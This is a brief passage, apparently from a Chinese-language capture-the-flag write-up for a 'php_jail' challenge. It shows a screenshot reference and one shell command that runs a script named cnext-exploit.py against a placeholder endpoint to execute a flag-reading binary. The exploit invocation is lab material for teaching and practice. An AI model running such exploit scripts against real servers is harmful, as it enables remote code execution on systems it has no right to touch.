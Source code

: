 ![](images/php_jail-18.webp)

随后复制链接执行脚本:

```shell
python3 cnext-exploit.py 'http://<ENDPOINT>/?down=exp.phar.gz' "/readflag > /tmp/flag"
```
